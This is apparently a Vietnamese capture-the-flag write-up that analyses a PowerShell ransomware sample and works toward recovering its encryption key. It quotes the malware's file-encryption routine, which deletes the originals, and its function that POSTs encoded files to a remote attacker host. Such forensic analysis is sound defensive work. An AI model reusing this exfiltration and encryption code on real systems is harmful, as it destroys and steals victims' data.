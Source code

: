 ```
> gWJNVVxUDVFFGNDNjQqZDSKJmQS9WUphXRYd1LPNnd-NXeQVGdW5_bQJ2SWN2ZuVndtVzdhFjb3ZTZnhTdLFlZ > administrator > win-ho5dpb1fvnd > 00:09 - 19/09/24
```
- Với endpoint là logs (nơi này chứa tất cả các nhật kí về encrypt file) thì cũng mã hoá theo cách tương tự.
- ![10](image/10.png)
- ![image](image/11.png)
<details><summary>
Dữ liệu sau khi giải mã
</summary></details>

- Có thể thấy có nhiều tệp từ flag_1 đến flag_59 bị encrypt. Bây giờ ta xem nội dung nó sẽ bị mã hoá và gửi đi như thế nào

```
function ExfiltrateFiles {
   Invoke-WebRequest -useb "$7CiB`:$UFX/files" -Method GET 2>&1> $null 
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "No files have been encrypted!" ; if (!$RansomLogs) {
   foreach ($i in $(Get-ChildItem $Directory -recurse -filter *.enc | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) {
      $Pfile = $i.split($slash)[-1] ; $B64file = R64Encoder -f $i ; $B64Name = R64Encoder -t $Pfile
      Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
   else { $B64Name = R64Encoder -t "none.null" ; Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
```
- Từ đây ta thấy rằng chúng lọc tất cả các file có trong `$Directory` (trừ các file đã mã hoá), sau đó gửi lần lượt tên và dữ liệu của file lên
- Xét thằng $B64Name trước (biến này chứa tên)
```
$Pfile = $i.split($slash)[-1] ;
$B64Name = R64Encoder -t $Pfile
Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null
```
- Nhìn vào đây ta thấy tên được mã hoá bằng hàm R64Encoder. Còn đoạn `$Pfile = $i.split($slash)[-1]` chỉ là lấy tên từ đường dẫn đích thôi.
- Sau khi mã hoá gửi thông tin mã hoá chứa tên file thông qua lệnh POST và endpoint là /files
- Thử giải mã 1 vài đoạn dữ liệu thử xem có đúng không.
- ![aaananana](image/13.png)
- ![aaaa](image/12.png)
- Tiếp theo là về phần dữ liệu thực sự của mỗi file, để decrypt thành công được chỗ này ta phải phân tích hàm `EncryptFiles`
```
function EncryptFiles { 
   $ExcludedFiles = '*.enc', 'yaginote.txt', '*.dll', '*.ini', '*.sys', '*.exe', '*.msi', '*.NLS', '*.acm', '*.nls', '*.EXE', '*.dat', '*.efi', '*.mui'
   foreach ($i in $(Get-ChildItem $Directory -recurse -exclude $ExcludedFiles | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) { 
   Invoke-AESEncryption -Key $WiETm -Path $i ; Add-Content -Path "$Directory$slash$I26" -Value "[!] $i is now encrypted" ;
   Remove-Item $i }
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch ; if (!$RansomLogs) { 
   Add-Content -Path "$Directory$slash$I26" -Value "[!] No files have been encrypted!" }}
```
- Tập trung vào `Invoke-AESEncryption -Key $WiETm -Path $i`, ta thấy chúng lấy các file có trong thư mục mã hoá bằng key là biến  $WiETm được hash sha256.
- Tuy nhiên key $WiETm hiện tại nó chỉ liên quan đến đoạn random : 
```$WiETm = -join ( (48..57) + (65..90) + (97..122) | Get-Random -Count 24 | % {[char]$_})```
- Nếu sử dụng phương pháp bruteforce sẽ không khả thi, vì độ dài quá lớn.
- Chúng ta còn 1 cách khác là tìm từ các biến đã có:
```
$7VEq = Get-Date -Format "HH:mm - dd/MM/yy" 
$Uz19o = $7VEq.replace(":","").replace(" ","").replace("-","").replace("/","")+$zVSza+$OgE